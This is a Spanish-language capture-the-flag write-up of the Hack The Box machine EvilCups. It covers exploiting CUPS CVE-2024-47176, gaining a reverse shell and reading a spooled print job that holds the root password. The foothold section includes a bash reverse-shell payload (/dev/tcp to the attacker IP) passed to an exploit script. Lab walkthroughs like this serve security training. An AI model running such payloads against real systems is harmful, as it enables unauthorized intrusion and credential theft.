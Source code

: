 ```yaml
---

title: Writeup EvilCups
published: True

---
```


* * *

En este writeup, exploramos la máquina **EvilCups** de Hack The Box, donde explotamos múltiples vulnerabilidades para escalar privilegios y comprometer el sistema. Utilizamos técnicas como la **enumeración de servicios expuestos**, la explotación de **vulnerabilidades recientemente publicadas de CUPS**,etc...

**CUPS** es un sistema de impresión utilizado en sistemas operativos UNIX, que permite a los usuarios configurar y gestionar impresoras locales y en red mediante el uso de controladores.

# [](#header-1)RECONOCIMIENTO
Realizamos un escaneo con nmap:

	❯ nmap -sCV -v 10.10.11.40 -Pn -T3
	
Como resultado encontramos esto:
  ```ruby
  
  PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 364995038db44c6ea92592af3c9e0666 (ECDSA)
|_  256 9fa4a9391120e096eec49a6928950c60 (ED25519)
631/tcp open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Home - CUPS 2.4.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Y encontramos dos puertos Tcp abiertos.
Vamos a ver que encontramos dentro de el puerto 631.

Aquí encontramos una versión:
![Texto alternativo](/assets/evilcups1.png)
* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a buscar vulnerabilidades en esa versión de CUPS:

Y relacionada con esa versión encontramos un CVE, en concreto este:
	CVE-2024-47176

Asique vamos a proceder a explotarlo.
```js
❯ python3 evilcups.py 10.10.15.127 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.15.127/8484 0>&1'"
```
![Texto alternativo](/assets/EvilCups2.png)

Para conseguir la reverse shell nos metemos dentro de la "impresora" que hemos conseguido crear mediante el exploit, y vamos a seleccionar esta opcion:

![Texto alternativo](/assets/EvilCups3.png)
![Texto alternativo](/assets/EvilCups4.png)

Y ya estaríamos con la reverse shell, listamos el contenido dentro del directorio en el que nos encontramos y encontraríamos la user flag.

Después de estar mirando por la máquina encontré que todos los trabajos de impresión se almacenan en /var/spool/cups

Como no tenemos permisos para listar el contenido, necesitamos saber cual es el siguiente "trabajo"/documento que la impresora que ya existe, para poder listarlo y así descargármelo.

En este caso ese "trabajo" de impresion tiene el nombre d00001-001
En el que significa:

```js
❯ -d: nos indica que es un archivo de datos de impresion
	00001: identifica el primera trabajo ne la cola
	001: especifica la instancia única del trabajo.
```
Todo este nombre se suele deducir a partir de el formato estandar que se utiliza en cups.
Tambien podriamos obtener este nombre realizando varios comandos en la maquina victicma, para ver que trabajos estan en cola como:
```js
	lpstat -o
	ls /var/spool/cups (si tenemos permisos)
	lpq
```
Pués una vez encontrado ese "trabajo" en cola, me lo voy a pasar a mi maquina para pasarlo a pdf y poder leerlo.

Para convertirlo a pdf utilize este comando:

```js
	ps2pdf d00001-001
```

Y dentro de ese archivo que ahora es un pdf encontramos la contraseña de root.
![Texto alternativo](/assets/EvilCups5.png)

Una vez encontrada la contraseña de root vamos a proceder mediante SSH a conectarnos y capturar la rootflag:

![Texto alternativo](/assets/EvilCups6.png)

PWNED!

*Documentación de aporte*

https://www.cups.org/doc/spec-design.html

https://github.com/AxthonyV/CVE-2024-47176
